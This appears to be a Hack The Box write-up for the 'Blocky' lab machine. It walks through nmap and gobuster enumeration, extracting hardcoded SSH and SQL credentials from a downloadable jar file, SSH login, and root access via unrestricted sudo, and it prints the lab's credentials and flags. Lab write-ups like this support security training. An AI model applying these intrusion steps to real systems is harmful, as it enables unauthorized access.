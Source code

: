 
---
title: Blocky
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box ]
math: true
---

# Blocky

Blocky was a easy linux machine that involved enumerating to find some files which gave creds so an sql database which then gave more creds needed for ssh. For root it was a really simple priv esc but from a common technique.

>Skills involve in this box:
- enumeration
- using databases
- privelage escalation

# USER

>Nmap

```bash
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap reveals port 80 being open as well as ssh open as well.

We check out the website where there doesnt seem to be much so we will further enumerate with gobuster:

```bash
kali@kali:~$ gobuster dir -u http://10.10.10.37/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s                                                                                           
===============================================================                                                   
2020/06/13 05:46:10 Starting gobuster                                                                             
===============================================================                                                   
/wiki (Status: 301)
/wp-content (Status: 301)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

We checkout the `/plugins` direcotry in the web browser and it takes us to a page where it allows us to downlaod some files.

`BlockCore.jar` is the file we are going to download and take a look at.

we unpack it and read the ` BlockyCore.class` file. It ahs some credentials in it which work with ssh as the user notch.

So we have the credentials `notch:8YsqfCTnvxAUeduzjNSXe22` - this is one method of getting user i will explain the second method later.

```bash
kali@kali:~$ ssh notch@10.10.10.37
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.                                         
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.                                       
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                           
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.                                       
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5notch@Blocky:~$
```

# ROOT

We run `sudo -l` to see what we can run as root and it tells us we can run everything as root so we simply just `su root` and read the root flag.

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su 
root@Blocky:/home/notch# cat /root/root.txt
0a9694a5b4d272c694679f7860f1cd5froot@Blocky:/home/notch#
```

The second method is when unpacking there is a file called `BlockCore.jad` whcih contains sql creds
We find that `/phpmyadmin` is available so we go to that and login with the creds it gives us in the file.

We then find the password for the user notch in the database and we simply ssh from there.

Thanks for reading hope you enjoyed.
